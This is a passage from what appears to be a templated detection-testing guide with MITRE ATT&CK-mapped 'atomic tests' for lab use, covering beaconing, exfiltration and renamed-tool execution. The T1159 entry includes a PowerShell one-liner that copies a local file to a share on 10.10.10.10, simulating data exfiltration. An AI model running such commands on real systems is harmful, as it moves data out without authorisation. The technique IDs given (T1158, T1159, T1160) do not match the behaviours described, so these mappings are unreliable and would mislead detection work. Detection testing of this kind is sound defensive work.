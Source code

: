 ### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of beaconing to external command servers on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1158**


## ✅ T1159 – Copying data to removable media or network

### Description
Simulates copying data to removable media or network to evaluate detection capability for MITRE tactic **Exfiltration**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell -c "Get-Content C:\data.txt | Out-File \\10.10.10.10\share\data.txt"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of copying data to removable media or network on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1159**


## ✅ T1160 – Malicious script execution using renamed tools

### Description
Simulates malicious script execution using renamed tools to evaluate detection capability for MITRE tactic **Execution**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.
